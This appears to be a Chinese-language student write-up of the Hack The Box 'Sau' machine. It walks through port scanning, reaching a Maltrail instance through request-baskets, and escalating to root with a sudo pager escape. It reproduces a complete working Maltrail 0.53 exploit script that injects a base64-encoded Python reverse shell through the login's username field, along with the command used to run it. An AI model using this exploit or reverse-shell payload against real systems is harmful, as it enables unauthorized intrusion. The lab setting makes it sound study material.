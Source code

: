 # Hack the box - Sau 
孫宏森、王政文

##  nmap
掃描後發現有開啟22，80，55555 port
![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/1aff14b6-f8ad-4ef5-994e-aacf92756d20)

## Vulnerability discovery
嘗試開啟網站 
80 port 沒有回應

55555 port 可以進入一個網站
![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/99de3bbb-48aa-4123-a1c5-eb1e81bf0500)
藉由左下角訊息我們可以知道網頁是 request-baskets 版本1.2.1

![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/3bdee541-8797-424b-b9a2-f5733e3a5ef3)

> "Request Basket" 是一種工具或服務，用於捕捉和存儲HTTP請求。這對於開發和測試Web應用程序尤其有用，因為它可以作為一個存儲點來檢查發出的請求是否符合預期。

點擊creat按鈕 即可在右方建立新的basket
![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/65712d8f-e2c6-4606-95ae-6a0687ff1168)

![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/c7a7ecc3-aa54-4a73-a352-3f0b45f7656d)

![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/8338d366-8cde-4098-b470-a284a3b42206)

前往該網址
![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/38cf2531-7eac-4d43-adfc-9c58f2850ada)

進入一個新頁面 是一個maltrail網頁
![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/044f5dc2-335d-4467-a5cf-2267be986ceb)
>
Maltrail是一種惡意交通檢測系統，它利用公開的惡意IP地址、域名和URL，以及特定的交通模式和用戶代理字符串等黑名單，來檢測和報告潛在的惡意流量。它可以被用作一種安全工具來監視和分析網絡交通，以識別可能的安全威脅，例如攻擊、感染或通訊的試圖。

可以看到log in不能點擊

![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/fdce7d6b-8fd7-4b45-824f-8dc0d112de94)


在左下方也可以發現maltrail的版本

![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/300005b1-2cf2-4810-b854-200c8ca0efab)

上網搜尋可以找到一個github資源(https://github.com/spookier/Maltrail-v0.53-Exploit)

![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/c449d6a2-4725-4a8e-a8d0-0409bb48447b)

將code以exploit.py在本地建立

```
import sys;
import os;
import base64;

def main():
	listening_IP = None
	listening_PORT = None
	target_URL = None

	if len(sys.argv) != 4:
		print("Error. Needs listening IP, PORT and target URL.")
		return(-1)
	
	listening_IP = sys.argv[1]
	listening_PORT = sys.argv[2]
	target_URL = sys.argv[3] + "/login"
	print("Running exploit on " + str(target_URL))
	curl_cmd(listening_IP, listening_PORT, target_URL)

def curl_cmd(my_ip, my_port, target_url):
	payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
	encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64
	command = f"curl '{target_url}' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
	os.system(command)

if __name__ == "__main__":
  main()
```



## exploit

參考github的使用方法
![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/1c0669cd-4425-40fc-8962-7c139380d8dd)
我們需要建立一個用來監聽的port
![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/dc81bfc0-b8c4-4b29-8bf9-55f8840c6825)

使用指令
```
exploit.py 10.10.14.117 4444 http://10.10.11.224:55555/uhu60rk
```

成功連接
![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/e5458d41-e042-4dfb-bb0a-f325ca096e13)




## GET FLAG

### user flag

可以直接找到user flag

![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/35301358-3f5e-40c9-8ccd-d9682b8da6c0)

### root flag

使用sudo -l可以看到有不需要使用密碼就可以執行sudo的服務

![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/c242165f-bc06-4819-ac34-264b6b86241b)

我們嘗試執行

![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/4298a0eb-3a57-4fbb-af39-b7671636443a)

使用`!sh`可以執行最後一個以 sh 開頭的命令

![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/a0559a2f-c479-4f1d-9ee3-a31880a8f9b8)

成功進入root權限

找到 root flag

![image](https://github.com/teri16/Pub-ClassWork/assets/144236243/d5dca81f-efb1-4cef-a284-cb051941eac9)

